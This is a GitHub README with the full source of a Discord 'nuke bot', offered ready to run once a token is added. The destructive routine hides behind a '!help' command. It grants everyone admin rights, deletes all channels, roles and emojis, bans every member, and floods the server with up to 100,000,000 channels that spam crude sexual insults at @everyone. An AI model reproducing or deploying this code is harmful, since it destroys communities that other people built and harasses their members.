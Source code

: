 # SimpleNukeBot
*A simple, fast, and awesome discord nuke bot! The only thing you need to add is your bot token.*

**Instructions:**

*All you need to do is create a discord bot in the discord dev portal. Once you have create a bot in it, copy its token and paste it in the quotes in line 18!*

**Nuke Command:** *!help*

**Other:**

*If you want to run the bot off replit here it is!:*

*All you have to do in replit is add a secret called **TOKEN** in the key section and paste your bots token in the value section, then of course run it.*

import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio
import os
from keep_alive import keep_alive


SPAM_CHANNEL =  ["Get Punked Noob", "Beaming by your dads massive cock", "Im sorry but--", "beamed by your dads tiny balls", "WHY TF YOU SO ANNOYING??"]
SPAM_MESSAGE = ["@everyone **Beamed by your dads massive musty cock, your dooky booty, suck some musty rusty tiny cock!**"]

bot = commands.Bot(command_prefix="!")

bot.remove_command("help")


@bot.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 


 ''')
   await bot.change_presence(activity=discord.Game(name="In 500+ Servers, !help"))

@bot.command()
@commands.is_owner()
async def bot_stop(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{bot.user.name} has logged out successfully." + Fore.RESET)

@bot.command()
async def help(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("𝐘𝐨𝐮𝐫_𝐔𝐬𝐞𝐫")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("Get Punked Noob")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 100000000
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@bot.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))




keep_alive()
bot.run(os.getenv("TOKEN"))
